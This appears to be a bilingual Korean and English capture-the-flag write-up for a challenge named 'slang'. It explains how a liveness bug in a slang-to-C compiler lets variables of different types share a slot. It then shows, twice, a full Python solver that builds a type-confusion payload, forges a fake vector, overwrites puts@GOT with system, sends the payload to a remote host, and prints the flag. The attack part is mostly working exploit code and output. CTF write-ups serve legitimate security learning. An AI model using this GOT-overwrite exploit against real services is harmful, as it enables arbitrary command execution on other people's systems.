

<div class="post-language-switch" data-post-language-switch role="group" aria-label="Article language">
    <a class="post-language-switch__button no-styling" data-post-language-link="ko" href="/posts/sctf-slang/kr/">KR</a>
    <a class="post-language-switch__button no-styling" data-post-language-link="en" href="/posts/sctf-slang/en/">EN</a>
</div>

:::section{data-post-language-panel="ko"}
# slang
## 1. 분석 대상
서비스는 사용자가 보낸 slang 소스 코드를 받아서 C 코드로 변환하고 그 C 파일을 `gcc -O0 -Wall -Wextra -no-pie`로 빌드한 뒤 실행한다. 입력은 `END_OF_SOURCE` 줄이 나올 때까지 읽고 컴파일된 실행 파일은 `/home/ctf`에서 실행된다.

```python
cmd = ["gcc", "-O0", "-Wall", "-Wextra", "-no-pie", "-o", exe_path, c_path, RUNTIME]
```

런타임에서 확인할 부분은 `say()`와 `scribble()`이다. `say()`는 내부적으로 `puts()`를 호출하고 `scribble()`은 벡터의 한 원소에 `delta`를 더해 다시 저장한다.

```c
typedef struct vec_t {
    int64_t *data;
    int64_t size;
} vec_t;

void rt_say(const char *s) {
    puts(s);
}

void rt_scribble(vec_t *v, int64_t idx, int64_t delta) {
    vec_store(v, idx, vec_load(v, idx) + delta);
}
```

slang 컴파일러가 만든 C 코드를 보면 지역 변수는 타입별로 따로 저장되지 않고 `uintptr_t slot[]` 배열에 들어간다. 정상적인 경우라면 서로 다른 타입의 값이 같은 시점에 같은 slot을 공유하면 안 된다. 그런데 `do { ... } while (...)` 블록 안에 있는 void builtin call의 인자가 liveness 계산에서 빠지면서 아직 call에서 사용될 변수가 다른 타입의 변수와 같은 slot을 재사용할 수 있었다.

예를 들어 아래와 같은 형태를 컴파일하면 `leak`가 `say(leak)`에서 아직 필요하지만 그 전에 `ptr`이 같은 slot을 덮는다.

```text
leak := "x";
ptr := puts_got;
do {
  say(leak);
} while (0);
keep_int(ptr);
```

생성된 C의 흐름은 다음과 같이 바뀐다.

```c
slot[0] = ((uintptr_t)S0);
slot[0] = ((uintptr_t)4210712);
do {
  rt_say(((const char*)slot[0]));
} while ((int64_t)((uintptr_t)0));
rt_keep_int(((int64_t)slot[0]));
```

결과적으로 `say(str)`에 문자열 포인터가 아니라 정수 주소를 넘길 수 있다. 같은 방식으로 `scribble(vec, int, int)`의 첫 번째 인자도 실제 벡터 포인터 대신 문자열 버퍼 주소로 바꿀 수 있다.

## 2. 풀이
풀이에서 필요한 원시 동작은 두 가지이다.

1. `say()`의 인자를 타입 혼동시켜 임의 주소를 문자열 포인터처럼 넘긴다.
2. `scribble()`의 `vec` 인자를 타입 혼동시켜, 문자열에 만든 fake `vec_t`를 실제 벡터처럼 사용한다.

첫 번째 `say()`는 `puts@GOT`를 인자로 호출한다. 이 호출 자체가 `puts()`를 한 번 실행하므로 lazy binding이 끝나고 이후 GOT에는 실제 libc의 `puts` 주소가 들어간다. leak을 파싱하지 않아도 되는 이유는 Docker 환경에서 `system - puts` 오프셋을 로컬로 계산할 수 있고 ASLR이 걸려도 두 함수의 차이는 그대로이기 때문이다.

두 번째 단계에서는 문자열 리터럴 안에 fake `vec_t`를 넣는다. `vec_t` 구조는 포인터와 크기 두 필드뿐이므로, little-endian으로 아래 값을 문자열에 넣으면 된다.

```c
vec_t fake = {
    .data = (int64_t *)puts_got,
    .size = 1,
};
```

`scribble(fake, 0, system - puts)`가 실행되면 런타임은 다음 연산을 수행한다.

```text
*(int64_t *)puts_got = *(int64_t *)puts_got + (system - puts)
```

이 시점의 `puts@GOT`에는 libc의 `puts` 주소가 들어 있으므로, 덧셈이 끝나면 GOT 엔트리는 `system`을 가리킨다. 마지막으로 `say("cat flag")`를 호출하면 `rt_say()` 안의 `puts()` 호출이 PLT/GOT를 거쳐 `system("cat flag")`로 바뀐다.

제공 Docker 환경에서 계산된 값은 다음과 같았다.

```text
puts@GOT = 0x404018
system - puts = -205200
```

솔버는 이 값을 하드코딩하지 않고 생성된 바이너리의 relocation과 libc 심볼 테이블을 읽어 자동으로 계산한다.

## 3. Exploit
전체 솔버 코드는 아래와 같다. `--profile docker`는 제공 Docker 이미지 기준으로 `puts@GOT`와 `system - puts`를 계산하고 `--host`를 넘기면 생성한 slang payload를 서비스로 전송한다. 원격이 SSL로 감싸져 있으면 `--ssl`을 추가한다.

```python
#!/usr/bin/env python3
import argparse
import os
import re
import socket
import ssl
import struct
import subprocess
from pathlib import Path


ROOT = Path(__file__).resolve().parents[1]
WORK = Path(__file__).resolve().parent


def run(cmd, cwd=ROOT):
    p = subprocess.run(cmd, cwd=cwd, text=True, capture_output=True)
    if p.returncode != 0:
        raise SystemExit(
            f"command failed: {' '.join(cmd)}\nstdout:\n{p.stdout}\nstderr:\n{p.stderr}"
        )
    return p.stdout


def int_symbol(readelf_out, name):
    for line in readelf_out.splitlines():
        parts = line.split()
        if len(parts) >= 8 and parts[7].startswith(f"{name}@@GLIBC_"):
            return int(parts[1], 16)
    raise SystemExit(f"missing libc symbol: {name}")


def got_symbol(objdump_out, name):
    pattern = re.compile(rf"^([0-9a-fA-F]+)\s+.*\b{name}@")
    for line in objdump_out.splitlines():
        m = pattern.search(line)
        if m:
            return int(m.group(1), 16)
    raise SystemExit(f"missing GOT relocation: {name}")


def escaped_bytes(data):
    return "".join(f"\\x{b:02x}" for b in data)


def render_payload(puts_got, delta):
    fake_vec = struct.pack("<QQ", puts_got, 1)
    return f"""function main() : str leak, int ptr, vec v, str fake, int idx, int delta, str cmd -> int {{
  leak := "x";
  ptr := {puts_got};
  do {{
    say(leak);
  }} while (0);
  keep_int(ptr);

  v := vec_new(1);
  fake := "{escaped_bytes(fake_vec)}";
  idx := 0;
  delta := {delta};
  do {{
    scribble(v, idx, delta);
  }} while (0);
  keep_str(fake);
  keep_int(idx);
  keep_int(delta);

  cmd := "cat flag";
  say(cmd);
  return 0;
}}
"""


def metadata_local(payload):
    src = WORK / "probe.slang"
    c_path = WORK / "probe.c"
    exe = WORK / "probe"
    src.write_text(payload, encoding="utf-8")
    run([str(ROOT / "extracted/attachment/slang"), str(src), str(c_path)])
    run(
        [
            "gcc",
            "-O0",
            "-Wall",
            "-Wextra",
            "-no-pie",
            "-o",
            str(exe),
            str(c_path),
            str(ROOT / "extracted/attachment/runtime.c"),
        ]
    )
    got = got_symbol(run(["objdump", "-R", str(exe)]), "puts")
    syms = run(["readelf", "-Ws", "/lib/x86_64-linux-gnu/libc.so.6"])
    return got, int_symbol(syms, "system") - int_symbol(syms, "puts")


def metadata_docker(image):
    src = WORK / "probe.slang"
    src.write_text(render_payload(0x404000, 0), encoding="utf-8")
    mount = f"{WORK}:/work"
    script = (
        "cd /work && "
        "/home/ctf/slang probe.slang probe.c && "
        "gcc -O0 -Wall -Wextra -no-pie -o probe probe.c /home/ctf/runtime.c && "
        "objdump -R probe && "
        "printf '\\n--LIBC--\\n' && "
        "readelf -Ws /lib/x86_64-linux-gnu/libc.so.6"
    )
    out = run(["docker", "run", "--rm", "-v", mount, image, "bash", "-lc", script])
    relocs, syms = out.split("\n--LIBC--\n", 1)
    got = got_symbol(relocs, "puts")
    return got, int_symbol(syms, "system") - int_symbol(syms, "puts")


def send_payload(host, port, payload, use_ssl=False):
    data = payload.encode() + b"END_OF_SOURCE\n"
    raw = socket.create_connection((host, port), timeout=10)
    if use_ssl:
        ctx = ssl._create_unverified_context()
        conn = ctx.wrap_socket(raw, server_hostname=host)
    else:
        conn = raw
    chunks = []
    with conn as s:
        s.sendall(data)
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            chunks.append(chunk)
    return b"".join(chunks)


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--profile", choices=["docker", "local"], default="docker")
    ap.add_argument("--image", default="slang-local:latest")
    ap.add_argument("--host")
    ap.add_argument("--port", type=int, default=9999)
    ap.add_argument("--ssl", action="store_true")
    args = ap.parse_args()

    seed = render_payload(0x404000, 0)
    if args.profile == "docker":
        puts_got, delta = metadata_docker(args.image)
    else:
        puts_got, delta = metadata_local(seed)

    payload = render_payload(puts_got, delta)
    out_path = WORK / "payload.slang"
    out_path.write_text(payload, encoding="utf-8")
    print(f"puts_got=0x{puts_got:x} delta={delta}")
    print(f"payload={out_path}")

    if args.host:
        out = send_payload(args.host, args.port, payload, args.ssl)
        print(out)
        m = re.search(rb"(?:SCTF|flag)\{[^}\n]+\}", out)
        if m:
            print(f"flag={m.group(0).decode()}")


if __name__ == "__main__":
    main()
```

생성되는 slang payload의 핵심은 두 개의 `do` 블록이다. 첫 번째 블록은 `say(leak)`의 인자를 `puts@GOT`로 바꿔 `puts`를 resolve하고 두 번째 블록은 `scribble(v, idx, delta)`의 `v`를 fake vector 문자열로 바꿔 GOT를 갱신한다.

```text
function main() : str leak, int ptr, vec v, str fake, int idx, int delta, str cmd -> int {
  leak := "x";
  ptr := 4210712;
  do {
    say(leak);
  } while (0);
  keep_int(ptr);

  v := vec_new(1);
  fake := "\x18\x40\x40\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00";
  idx := 0;
  delta := -205200;
  do {
    scribble(v, idx, delta);
  } while (0);
  keep_str(fake);
  keep_int(idx);
  keep_int(delta);

  cmd := "cat flag";
  say(cmd);
  return 0;
}
```

검증한 실행에서는 Docker 기준 metadata가 아래처럼 계산됐고 같은 payload를 원격 서비스에 보냈을 때 flag가 출력됐다.

```text
puts_got=0x404018 delta=-205200
flag=flag{6XxgMv1Fh5b2163efW63YBiorbbn51kn}
```

## 4. Flag
`flag{6XxgMv1Fh5b2163efW63YBiorbbn51kn}`


:::

:::section{data-post-language-panel="en"}
# slang

## 1. Analysis focus

The service takes slang source code sent by the user, translates it into C, builds that C file with `gcc -O0 -Wall -Wextra -no-pie`, and runs it. Input is read until a line containing `END_OF_SOURCE`, and the compiled executable runs from `/home/ctf`.

```python
cmd = ["gcc", "-O0", "-Wall", "-Wextra", "-no-pie", "-o", exe_path, c_path, RUNTIME]
```

At runtime, the important functions are `say()` and `scribble()`. `say()` internally calls `puts()`, and `scribble()` adds `delta` to one element of a vector and stores it back.

```c
typedef struct vec_t {
    int64_t *data;
    int64_t size;
} vec_t;

void rt_say(const char *s) {
    puts(s);
}

void rt_scribble(vec_t *v, int64_t idx, int64_t delta) {
    vec_store(v, idx, vec_load(v, idx) + delta);
}
```

Looking at the C code generated by the slang compiler, local variables are not stored separately by type; they go into a `uintptr_t slot[]` array. In normal cases, values of different types should not share the same slot at the same time. However, arguments to void builtin calls inside a `do { ... } while (...)` block were omitted from the liveness calculation, so a variable still needed by a call could have its slot reused by a variable of a different type.

For example, compiling the following pattern makes `leak` still needed by `say(leak)`, but `ptr` overwrites the same slot before the call.

```
leak := "x";
ptr := puts_got;
do {
  say(leak);
} while (0);
keep_int(ptr);
```

The generated C flow changes as follows.

```c
slot[0] = ((uintptr_t)S0);
slot[0] = ((uintptr_t)4210712);
do {
  rt_say(((const char*)slot[0]));
} while ((int64_t)((uintptr_t)0));
rt_keep_int(((int64_t)slot[0]));
```

As a result, we can pass an integer address to `say(str)` instead of a string pointer. The same trick can also replace the first argument of `scribble(vec, int, int)` with the address of a string buffer instead of an actual vector pointer.

## 2. Solution approach

The solve needs two primitives.

1. Type-confuse the argument to `say()` so an arbitrary address is passed as a string pointer.
2. Type-confuse the `vec` argument to `scribble()` so a fake `vec_t` built inside a string is used as a real vector.

The first `say()` call uses `puts@GOT` as its argument. Since this call itself executes `puts()` once, lazy binding is completed, and afterward the GOT contains the real libc address of `puts`. The reason the leak does not need to be parsed is that in the Docker environment we can compute the `system - puts` offset locally, and even with ASLR the difference between the two functions stays the same.

In the second stage, a fake `vec_t` is placed inside a string literal. Since `vec_t` has only two fields, a pointer and a size, the following values can be inserted into the string in little-endian form.

```c
vec_t fake = {
    .data = (int64_t *)puts_got,
    .size = 1,
};
```

When `scribble(fake, 0, system - puts)` runs, the runtime performs the following operation.

```
*(int64_t *)puts_got = *(int64_t *)puts_got + (system - puts)
```

At this point, `puts@GOT` contains libc’s `puts` address, so after the addition, the GOT entry points to `system`. Finally, when `say("cat flag")` is called, the `puts()` call inside `rt_say()` goes through PLT/GOT and becomes `system("cat flag")`.

The values calculated in the provided Docker environment were as follows.

```
puts@GOT = 0x404018
system - puts = -205200
```

The solver does not hardcode this value; it automatically computes it by reading the generated binary’s relocations and the libc symbol table.

## 3. Exploit

The full solver is below.

```python
#!/usr/bin/env python3
import argparse
import os
import re
import socket
import ssl
import struct
import subprocess
from pathlib import Path

ROOT = Path(__file__).resolve().parents[1]
WORK = Path(__file__).resolve().parent

def run(cmd, cwd=ROOT):
    p = subprocess.run(cmd, cwd=cwd, text=True, capture_output=True)
    if p.returncode != 0:
        raise SystemExit(
            f"command failed:{' '.join(cmd)}\nstdout:\n{p.stdout}\nstderr:\n{p.stderr}"
        )
    return p.stdout

def int_symbol(readelf_out, name):
    for line in readelf_out.splitlines():
        parts = line.split()
        if len(parts) >= 8 and parts[7].startswith(f"{name}@@GLIBC_"):
            return int(parts[1], 16)
    raise SystemExit(f"missing libc symbol:{name}")

def got_symbol(objdump_out, name):
    pattern = re.compile(rf"^([0-9a-fA-F]+)\s+.*\b{name}@")
    for line in objdump_out.splitlines():
        m = pattern.search(line)
        if m:
            return int(m.group(1), 16)
    raise SystemExit(f"missing GOT relocation:{name}")

def escaped_bytes(data):
    return "".join(f"\\x{b:02x}" for b in data)

def render_payload(puts_got, delta):
    fake_vec = struct.pack("<QQ", puts_got, 1)
    return f"""function main() : str leak, int ptr, vec v, str fake, int idx, int delta, str cmd -> int{{
  leak := "x";
  ptr :={puts_got};
  do{{
    say(leak);
}} while (0);
  keep_int(ptr);

  v := vec_new(1);
  fake := "{escaped_bytes(fake_vec)}";
  idx := 0;
  delta :={delta};
  do{{
    scribble(v, idx, delta);
}} while (0);
  keep_str(fake);
  keep_int(idx);
  keep_int(delta);

  cmd := "cat flag";
  say(cmd);
  return 0;
}}
"""

def metadata_local(payload):
    src = WORK / "probe.slang"
    c_path = WORK / "probe.c"
    exe = WORK / "probe"
    src.write_text(payload, encoding="utf-8")
    run([str(ROOT / "extracted/attachment/slang"), str(src), str(c_path)])
    run(
        [
            "gcc",
            "-O0",
            "-Wall",
            "-Wextra",
            "-no-pie",
            "-o",
            str(exe),
            str(c_path),
            str(ROOT / "extracted/attachment/runtime.c"),
        ]
    )
    got = got_symbol(run(["objdump", "-R", str(exe)]), "puts")
    syms = run(["readelf", "-Ws", "/lib/x86_64-linux-gnu/libc.so.6"])
    return got, int_symbol(syms, "system") - int_symbol(syms, "puts")

def metadata_docker(image):
    src = WORK / "probe.slang"
    src.write_text(render_payload(0x404000, 0), encoding="utf-8")
    mount = f"{WORK}:/work"
    script = (
        "cd /work && "
        "/home/ctf/slang probe.slang probe.c && "
        "gcc -O0 -Wall -Wextra -no-pie -o probe probe.c /home/ctf/runtime.c && "
        "objdump -R probe && "
        "printf '\\n--LIBC--\\n' && "
        "readelf -Ws /lib/x86_64-linux-gnu/libc.so.6"
    )
    out = run(["docker", "run", "--rm", "-v", mount, image, "bash", "-lc", script])
    relocs, syms = out.split("\n--LIBC--\n", 1)
    got = got_symbol(relocs, "puts")
    return got, int_symbol(syms, "system") - int_symbol(syms, "puts")

def send_payload(host, port, payload, use_ssl=False):
    data = payload.encode() + b"END_OF_SOURCE\n"
    raw = socket.create_connection((host, port), timeout=10)
    if use_ssl:
        ctx = ssl._create_unverified_context()
        conn = ctx.wrap_socket(raw, server_hostname=host)
    else:
        conn = raw
    chunks = []
    with conn as s:
        s.sendall(data)
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            chunks.append(chunk)
    return b"".join(chunks)

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--profile", choices=["docker", "local"], default="docker")
    ap.add_argument("--image", default="slang-local:latest")
    ap.add_argument("--host")
    ap.add_argument("--port", type=int, default=9999)
    ap.add_argument("--ssl", action="store_true")
    args = ap.parse_args()

    seed = render_payload(0x404000, 0)
    if args.profile == "docker":
        puts_got, delta = metadata_docker(args.image)
    else:
        puts_got, delta = metadata_local(seed)

    payload = render_payload(puts_got, delta)
    out_path = WORK / "payload.slang"
    out_path.write_text(payload, encoding="utf-8")
    print(f"puts_got=0x{puts_got:x} delta={delta}")
    print(f"payload={out_path}")

    if args.host:
        out = send_payload(args.host, args.port, payload, args.ssl)
        print(out)
        m = re.search(rb"(?:SCTF|flag)\{[^}\n]+\}", out)
        if m:
            print(f"flag={m.group(0).decode()}")

if __name__ == "__main__":
    main()
```

The core of the generated slang payload is two `do` blocks. The first block changes the argument of `say(leak)` to `puts@GOT` to resolve `puts`, and the second block changes the `v` argument of `scribble(v, idx, delta)` to the fake vector string to update the GOT.

```
function main() : str leak, int ptr, vec v, str fake, int idx, int delta, str cmd -> int {
  leak := "x";
  ptr := 4210712;
  do {
    say(leak);
  } while (0);
  keep_int(ptr);

  v := vec_new(1);
  fake := "\x18\x40\x40\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00";
  idx := 0;
  delta := -205200;
  do {
    scribble(v, idx, delta);
  } while (0);
  keep_str(fake);
  keep_int(idx);
  keep_int(delta);

  cmd := "cat flag";
  say(cmd);
  return 0;
}
```

## 4. Flag


`flag{6XxgMv1Fh5b2163efW63YBiorbbn51kn}`
:::
